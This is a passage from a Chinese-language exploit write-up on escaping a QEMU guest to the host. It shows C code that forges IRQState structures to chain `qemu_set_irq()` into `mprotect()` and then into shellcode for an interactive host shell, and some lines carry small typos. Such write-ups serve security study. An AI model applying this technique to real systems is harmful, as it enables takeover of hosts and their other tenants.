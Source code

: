 我们的想法是构造两个 IRQState 结构体。第一个用于调用 `mprotect()`，第二个用于调用 shellcode，shellcode 首先取消第一个的 MADV_DONTFORK 标志，然后在客户机和主机之间运行一个交互式的 shell。

如前所述，当 `qemu_set_irq()` 被调用，它使用两个参数作为输入：`irq`（指向 IRQstate 结构体的指针）和 `level`（IRQ level），然后像下面这样调用 handler：

```c
void qemu_set_irq(qemu_irq irq, int level)
{
    if (!irq)
        return;

    irq->handler(irq->opaque, irq->n, level);
}
```

如上所属，我们只控制了前两个参数。那么如何调用有三个参数的 `mprotect()`？

为了解决这个问题，我们将使 `qemu_set_irq()` 先用以下参数调用自身：

* `irq` ：指向伪造的 IRQState 的指针，设置 handler 指针为 `mprotect()` 函数。
* `level`：mprotect 标志设置为：PROT_READ | PROT_WRITE | PROT_EXEC

这是通过设置两个伪造的 IRQState 结构体实现的，代码片段如下：

```c
struct IRQState {
    uint8_t  _nothing[44];
    uint64_t  handler;
    uint64_t  arg_1;
    int32_t   arg_2;
};

struct IRQState  fake_irq[2];
hptr_t fake_irq_mem = gva_to_hva(fake_irq);

/* do qemu_set_irq */
fake_irq[0].handler = qemu_set_irq_addr;
fake_irq[0].arg_1 = fake_irq_mem + sizeof(struct IRQState);
fake_irq[0].arg_2 = PROT_READ | PROT_WRITE | PROT_EXEC;

/* do mprotect */
fake_irq[1].handler = mprotec_addrt;
fake_irq[1].arg_1 = (fake_irq_mem >> PAGE_SHIFT) << PAGE_SHIFT;
fake_irq[1].arg_2 = PAGE_SIZE;
```

溢出发生后，调用 `qemu_set_irq()` 时有一个伪造的 handler 指针，只是再次调用 `qemu_set_irq()`，在循环调用中将 `level` 参数调整为 7（mprotect 需要的）时调用 mprotect。

现在内存是可执行的，我们可以通过重写第一个 IRQState 的handler 为 shellcode 的地址把控制权交给我们的交互式 shell。

```c
payload.fake_irq[0].handler = shellcode_addr;
payload.fake_irq[0].arg_1 = shellcode_data;
```
